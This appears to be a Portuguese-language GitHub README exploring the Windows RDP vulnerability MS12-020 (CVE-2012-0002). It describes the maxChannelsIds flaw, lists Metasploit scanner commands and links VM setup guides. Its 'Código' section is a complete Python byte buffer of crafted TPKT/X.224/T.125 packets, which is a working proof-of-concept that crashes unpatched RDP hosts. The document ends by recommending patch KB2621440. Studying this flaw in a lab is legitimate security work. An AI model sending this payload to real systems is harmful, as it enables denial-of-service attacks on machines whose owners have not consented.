 # Exploring-MS12-020 / CVE-2012-0002

***"The Microsoft Remote Desktop Protocol (RDP) provides remote display
and input capabilities over network connections for Windows-based
applications running on a server. RDP is designed to support different
types of network topologies and multiple LAN protocols."***

 - O RDP é usado pelo "Terminal Services e Remote Desktop Services" e
   funciona no nível de kernel na porta 3389.
   
  - Existe uma vulnerabilidade que ocorre no manuseio do apontador
   pendente no campo maxChannelsIds do pacote T.125 ConnectMCSPDU que
   fica nesse estado de vulnerabilidade quando setado para menor/igual ao número 5.
   
  - Observe que nas versões do Windows pós-Vista (como 7 e 2008) "parece"
   necessário ter "Permitir conexões de computadores executando qualquer
   versão da área de trabalho remota "por ser vulnerável.
   
   - A code-exec ocorre durante a desconexão usuário. A capacidade de
   exploração depende da possibilidade de controlar o ESI ou o conteúdo
   apontado por ele.

![](https://ifconfig.dk/wp-content/uploads/2014/02/RDPkill1.png)

# Metasploit 

```console
msf > use auxiliary/scanner/rdp/ms12_020_check

msf auxiliary(ms12_020_check) > show actions

    ...actions...
    
msf auxiliary(ms12_020_check) > set ACTION < action-name >

msf auxiliary(ms12_020_check) > show options

    ...show and set options...
    
msf auxiliary(ms12_020_check) > run
```

# Instalações
Para entender como criar e instalar uma VM com o SO - Win 7, recomendo acessar o seguinte link: [https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/](https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/) 

E para fazer a instalação do VirtualBox :
[https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads) 


# Código

O buffer que deve ser adicionado é o seguinte:

```python
import socket
import sys


buf=""
buf+="\x03\x00\x00\x13" # TPKT, Version 3, lenght 19
buf+="\x0e\xe0\x00\x00\x00\x00\x00\x01\x00\x08\x00\x00\x00\x00\x00" # ITU-T Rec X.224
buf+="\x03\x00\x01\xd6" # TPKT, Version 3, lenght 470
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x7f\x65\x82\x01\x94\x04" #MULTIPOINT-COMMUNICATION-SERVICE T.125

buf+="\x01\x01\x04\x01\x01\x01\x01\xff" 
buf+="\x30\x19\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x02\x02\x04"
buf+="\x00\x00\x00\x00\x02\x04\x00\x00"
buf+="\x00\x01\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x01\x02\x02"
buf+="\xff\xff\x02\x04\x00\x00\x00\x02"
buf+="\x30\x19\x02\x04\x00\x00\x00\x01"
buf+="\x02\x04\x00\x00\x00\x01\x02\x04"
buf+="\x00\x00\x00\x01\x02\x04\x00\x00"
buf+="\x00\x01\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x01\x02\x02"
buf+="\x04\x20\x02\x04\x00\x00\x00\x02"
buf+="\x30\x1c\x02\x02\xff\xff\x02\x02"
buf+="\xfc\x17\x02\x02\xff\xff\x02\x04"
buf+="\x00\x00\x00\x01\x02\x04\x00\x00"
buf+="\x00\x00\x02\x04\x00\x00\x00\x01"
buf+="\x02\x02\xff\xff\x02\x04\x00\x00"
buf+="\x00\x02\x04\x82\x01\x33\x00\x05"
buf+="\x00\x14\x7c\x00\x01\x81\x2a\x00"
buf+="\x08\x00\x10\x00\x01\xc0\x00\x44"
buf+="\x75\x63\x61\x81\x1c\x01\xc0\xd8"
buf+="\x00\x04\x00\x08\x00\x80\x02\xe0"
buf+="\x01\x01\xca\x03\xaa\x09\x04\x00"
buf+="\x00\xce\x0e\x00\x00\x48\x00\x4f"
buf+="\x00\x53\x00\x54\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x04\x00\x00"
buf+="\x00\x00\x00\x00\x00\x0c\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x01\xca\x01\x00\x00\x00\x00"
buf+="\x00\x10\x00\x07\x00\x01\x00\x30"
buf+="\x00\x30\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x30\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x30\x00\x30\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x04\xc0\x0c"
buf+="\x00\x0d\x00\x00\x00\x00\x00\x00"
buf+="\x00\x02\xc0\x0c\x00\x1b\x00\x00"
buf+="\x00\x00\x00\x00\x00\x03\xc0\x2c"
buf+="\x00\x03\x00\x00\x00\x72\x64\x70"
buf+="\x64\x72\x00\x00\x00\x00\x00\x80"
buf+="\x80\x63\x6c\x69\x70\x72\x64\x72"
buf+="\x00\x00\x00\xa0\xc0\x72\x64\x70"
buf+="\x73\x6e\x64\x00\x00\x00\x00\x00"
buf+="\xc0"

buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80"  # ITU-T Rec X.224
buf+="\x04\x01\x00\x01\x00" # MULTIPOINT-COMMUNICATION-SERVICE T.125
buf+="\x03\x00\x00\x08" #TPKT, Version 3, Length 8
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x28" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xef" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xeb" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xec"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c"  # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xed"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xee"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0b" # TPKT, Version 3, Lenght 12
buf+="\x06\xd0\x00\x00\x12\x34\x00"  #ITU-T Rec X.224

```
Por fim, a instalação da atualização de segurança KB2621440 através da atualização do Windows fecha esta vulnerabilidade. Com isso, espero que prove meu ponto de sempre manter seu sistema atualizado.
